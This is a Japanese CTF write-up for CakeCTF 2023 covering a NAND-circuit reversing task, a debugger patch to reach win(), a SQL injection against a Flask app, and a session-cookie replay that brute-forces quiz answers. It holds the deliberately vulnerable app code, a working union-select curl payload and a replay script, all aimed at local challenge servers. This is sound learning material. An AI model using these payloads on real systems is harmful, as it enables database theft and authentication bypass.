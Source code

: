 ```yaml
---
title: "CakeCTF2023 upsolve"
date: 2024-05-02T03:54:48+09:00
draft: true
---
```


# rev

### nande

Ghidra で見る．
NAND で構成された MODULE が見える．
MODULE の真理値表から XOR っぽい．
XOR なら逆算で入力が求まるので，逆算とデコードを書く．

```python
outputs = [0x1, 0x1, 0x1, 0x1, 0x1, 0x0, 0x0, 0x1, 0x1, 0x0, 0x0, 0x1, 0x0, 0x0, 0x1, 0x0, 0x0, 0x1, 0x1, 0x0, 0x0, 0x0, 0x0, 0x1, 0x1, 0x1, 0x1, 0x1, 0x0, 0x0, 0x1, 0x1, 0x1, 0x1, 0x0, 0x1, 0x0, 0x1, 0x1, 0x1, 0x0, 0x0, 0x0, 0x1, 0x1, 0x0, 0x1, 0x1, 0x1, 0x1, 0x0, 0x1, 0x0, 0x1, 0x0, 0x0, 0x1, 0x0, 0x1, 0x0, 0x1, 0x1, 0x0, 0x1, 0x0, 0x0, 0x1, 0x1, 0x0, 0x1, 0x1, 0x0, 0x0, 0x0, 0x0, 0x0, 0x1, 0x0, 0x0, 0x0, 0x0, 0x1, 0x0, 0x0, 0x1, 0x0, 0x0, 0x1, 0x0, 0x1, 0x1, 0x1, 0x0, 0x0, 0x1, 0x1, 0x1, 0x0, 0x0, 0x1, 0x1, 0x1, 0x0, 0x1, 0x0, 0x1, 0x1, 0x1, 0x1, 0x0, 0x1, 0x1, 0x0, 0x0, 0x0, 0x1, 0x1, 0x0, 0x0, 0x1, 0x1, 0x0, 0x1, 0x1, 0x0, 0x0, 0x0, 0x1, 0x0, 0x1, 0x1, 0x1, 0x0, 0x1, 0x0, 0x0, 0x0, 0x0, 0x1, 0x0, 0x0, 0x0, 0x0, 0x1, 0x1, 0x1, 0x0, 0x1, 0x0, 0x0, 0x0, 0x1, 0x1, 0x0, 0x0, 0x1, 0x0, 0x0, 0x0, 0x0, 0x0, 0x1, 0x0, 0x0, 0x0, 0x0, 0x1, 0x1, 0x1, 0x1, 0x1, 0x1, 0x1, 0x1, 0x1, 0x0, 0x1, 0x0, 0x1, 0x0, 0x0, 0x1, 0x1, 0x0, 0x1, 0x1, 0x1, 0x0, 0x1, 0x0, 0x1, 0x0, 0x1, 0x0, 0x0, 0x0, 0x0, 0x0, 0x0, 0x1, 0x1, 0x0, 0x1, 0x1, 0x0, 0x1, 0x1, 0x0, 0x1, 0x0, 0x1, 0x0, 0x1, 0x0, 0x0, 0x1, 0x1, 0x1, 0x1, 0x1, 0x0, 0x1, 0x1, 0x0, 0x1, 0x1, 0x1, 0x0, 0x0, 0x1, 0x0, 0x1, 0x1, 0x0, 0x1, 0x1, 0x0, 0x0, 0x1, 0x0, 0x0, 0x1, 0x1, 0x0, 0x0, 0x1, 0x1, 0x1, 0x0, 0x1, 0x0, 0x1, 0x0, 0x1, 0x1, 0x0]

def nand(a, b):
   return int((a & b) == 0)
   
def MODULE(a, b): # XOR
   local18 = nand(a,b)
   local16 = nand(a, local18)
   local17 = nand(b, local18)
   return nand(local16, local17)

def CIRCUIT(a):
   for i in range(0x1234):
      b = [0] * 0xff
      for j in range(0xff):
         b[j] = MODULE(a[j], a[j+1])
      b[j] = MODULE(a[j], 0x01)
      a = b.copy()
   return b

def rev_CIRCUIT(outputs):
   for i in range(0x1234):
      inputs = [0] * 0x100
      #print(len(inputs))
      inputs[0xff] = MODULE(outputs[0xff], 0x01)
      for j in reversed(range(0xff)):
         inputs[j] = MODULE(outputs[j], inputs[j+1])
      outputs = inputs.copy()
   #print(inputs)
   return inputs
   
def decode(result):
   decoded = b""
   for i in range(0x20):
      tmp = 0
      for j in range(8):
         tmp = tmp + 2**j * result[8*i + j]
      decoded = decoded + bytes([tmp])
      #i = 7 + i
      #if(i == 255):
      #   break
   print(decoded)
   return decoded
      
decode(rev_CIRCUIT(outputs))
```

```shell
┌──(kali㉿kali)-[~/CTF]
└─$ python solve9.py
b'CakeCTF{h2fsCHAo3xOsBZefcWudTa4}'
```

### Cake Puzzle

```C

void main(void)

{
  int iVar1;
  undefined8 uVar2;
  char local_78 [112];
  
  alarm(1000);
  while( true ) {
    uVar2 = q();
    if ((int)uVar2 == 0) {
      win();
    }
    printf("> ");
    fflush(stdout);
    iVar1 = __isoc99_scanf(&DAT_00102019,local_78);
    if (iVar1 == -1) break;
    e(local_78[0]);
  }
                    /* WARNING: Subroutine does not return */
  exit(0);
}
```

```win()``` を呼び出すとフラグが発生するっぽい．
直前で ```if ((int)uVar2 == 0)``` とあるので，```uVar2``` が 0 になってくれればいい．

```shell
pwndbg> b *0x5555555555e6
Breakpoint 2 at 0x5555555555e6
pwndbg> r

~~ snip ~~

pwndbg> print $eax
$2 = 1
pwndbg> set $eax=0
pwndbg> print $eax
$3 = 0
pwndbg> c
Continuing.
fopen: No such file or directory 
[Inferior 1 (process 744346) exited with code 01]
```

```fopen: No such file or directory ``` は，逆コンパイル結果を見る限り，flag.txt を開こうとしたが，ローカルで開けていないだけだと思うので解けているとは思う．．．

# Web

### CountryDB

```python
#!/usr/bin/env python3
import flask
import sqlite3

app = flask.Flask(__name__)

def db_search(code):
    with sqlite3.connect('database.db') as conn:
        cur = conn.cursor()
        cur.execute(f"SELECT name FROM country WHERE code=UPPER('{code}')")
        found = cur.fetchone()
    return None if found is None else found[0]

@app.route('/')
def index():
    return flask.render_template("index.html")

@app.route('/api/search', methods=['POST'])
def api_search():
    req = flask.request.get_json()
    if 'code' not in req:
        flask.abort(400, "Empty country code")

    code = req['code']
    if len(code) != 2 or "'" in code:
        flask.abort(400, "Invalid country code")

    name = db_search(code)
    if name is None:
        flask.abort(404, "No such country")

    return {'name': name}

if __name__ == '__main__':
    app.run(debug=True)
```

app.py で国コードを受け取っている．
特に，code はサニタイズされていて，二文字かつ ['] を含まないことになっている．
しかし，文字列であるかどうかの確認がないため，リストで入力することができる．

```"SELECT name FROM country WHERE code=UPPER('{code}')"``` という SQL 列に注目して，
code に入れるべき配列を考える．
flag というテーブルに flag の変数が入っているので，これを探したい．

```union``` を使って SQL 文を連結することを考える．

```python
code = [") union select flag from flag; "--, "a"]
```

クオーテーションに注意して，以下のように curl を出す．

```shell
curl -X POST -H "Content-Type: application/json" -d '{"code": [") union select flag from flag; --", "a"]}' http://0.0.0.0:8020/api/search
{"name":"CakeCTF{b3_c4refUl_wh3n_y0U_u5e_JS0N_1nPut}"}
```

### TOWFL

session の管理が甘く，```flask.session.clear()``` していても同じセッションを使うと同じログイン情報が使える．

```python
import requests
import json

s = requests.Session()
base = "http://0.0.0.0:8888/"

score = 0
s.post(base + "api/start")
answer = [[None]*10 for _ in range(10)]

for i in range(100):
    for j in range(4):
        answer[i//10][i%10] = j
        s.post(base + "api/submit", json = answer) 
        cook = s.cookies["session"]
        scores = s.get(base + "api/score")
        s.cookies["session"] = cook
        if scores.json()["data"]["score"] == score + 1:
            score = score + 1
            print(score)
            break

s.post(base + "api/submit", json = answer)
score = s.get(base + "api/score")
print(score.json())
```

```s.post(base + "api/submit", json = answer)``` で，仮の answer を保持したまま解答を提出する．
このとき，確定している解答以外は空欄で提出する．
また，cookie を保存する．
次に ```s.get(base + "api/score")``` でスコアを取得し(Burp で見ると json 形式になっていることが分かるのでそれに対応したように書く)，score が 1 増加していれば通る，というようにする．
